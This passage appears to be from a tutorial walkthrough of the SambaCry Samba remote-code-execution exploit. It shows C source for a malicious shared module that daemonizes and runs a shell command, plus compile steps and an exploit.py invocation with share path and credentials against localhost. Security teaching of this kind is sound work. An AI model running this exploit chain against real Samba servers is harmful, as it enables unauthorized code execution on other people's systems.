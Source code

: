 ```


static void detachFromParent(void) {
    pid_t pid, sid;

    if ( getppid() == 1 ){
        return;
    }

    pid = fork();

    if (pid < 0) {
        exit(EXIT_FAILURE);
    }

    if (pid > 0) {
        exit(EXIT_SUCCESS);
    }

    umask(0);

    sid = setsid();
    if (sid < 0) {
        exit(EXIT_FAILURE);
    }

    if ((chdir("/")) < 0) {
        exit(EXIT_FAILURE);
    }

}

int samba_init_module(void)
{
    detachFromParent();
    char command[50];

    strcpy( command, "mkdir /tmp/test" );
    system(command);
    return 0;
}

```
<br>

Compile run then execute just like before:
<br>

```
gcc -c -fpic execute.c
gcc -shared -o execute.so execute.o


./exploit.py -t localhost -e execute.so \
             -s data -r /data/execute.so \
             -u sambacry -p nosambanocry
			 
```
<br>
